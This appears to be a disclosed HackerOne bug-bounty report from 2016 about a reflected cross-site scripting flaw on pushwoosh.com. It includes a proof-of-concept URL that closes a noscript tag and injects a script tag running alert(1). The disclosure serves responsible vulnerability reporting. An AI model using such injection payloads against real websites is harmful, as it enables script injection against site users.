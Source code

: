 # Reflected Xss on 

## Report Details
- **Report ID**: 182033
- **URL**: https://hackerone.com/reports/182033
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-11-14T09:25:03.554Z
- **Disclosed**: 2016-12-14T11:50:23.292Z

## Reporter
- **Username**: d1pakda5
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: pushwoosh

## Vulnerability Information
Hi 
here is a reflected xss on your main domain

poc : ```http://www.pushwoosh.com/.xml/></noscript><script>alert(1)</script>``` 

## Attachments
No attachments
